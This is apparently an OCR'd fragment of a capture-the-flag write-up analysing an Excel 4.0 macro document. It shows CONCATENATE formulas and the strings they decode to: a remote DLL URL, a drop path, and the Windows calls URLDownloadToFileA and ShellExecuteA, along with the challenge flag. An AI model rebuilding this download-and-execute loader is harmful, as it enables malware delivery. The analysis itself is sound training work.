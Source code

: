 ```shell
# CONCATENATE(B358,Q771,K834,K924,D1020,M1175,F94)
# CONCATENATE(X1224,P1281,U1293,G11,Q801)
# CONCATENATE(U410)
# CONCATENATE(Z699,L932,J1190,C574,J644,A718,E813)
# CONCATENATE(B1334,B36,H461,G1019,U1036)
# CONCATENATE(M15,T86,S187,V106,R58,P1318,C194,M440)
# CONCATENATE(F1213,I1285,O347,X742)
# CONCATENATE(H730,C801,K802,S1032,C297,B358)
# CONCATENATE(G335,Q471,W570,F615,O686,V719)
# CONCATENATE(T645,M750,N1097,V551,Z960,B994)
# CONCATENATE(T1000,W1063,O1107,K1131,D517)
# CONCATENATE(K1184,Y420,D450)
# CONCATENATE(Q880,V1048)
# CONCATENATE(P1047,C593,C1040)
```

And they can be evaluated in LibreOffice:

```
 HTB{n0w_e
http://0b.htb/s.dll
ShellExecuteA
http://0b
hTXx.dl
4.0_M4A$0!(rR}
URLDownloadToFileA
RLM
ON
Xc3l_
Shell32
dll
tp://0
ShellExe
#N/A
URLDownl
LDown
4.0_M
kYKlI\U
Shell
URLDownloadToFileA
cr0s_r_b4cK
cuteA
rncwner\
iQhTXx.dll
C:\rncwner\Ck
adToFi
htb/s.
0s_r_
URLMON
32
C:\rncwner\CkuiQhTXx.dll
```
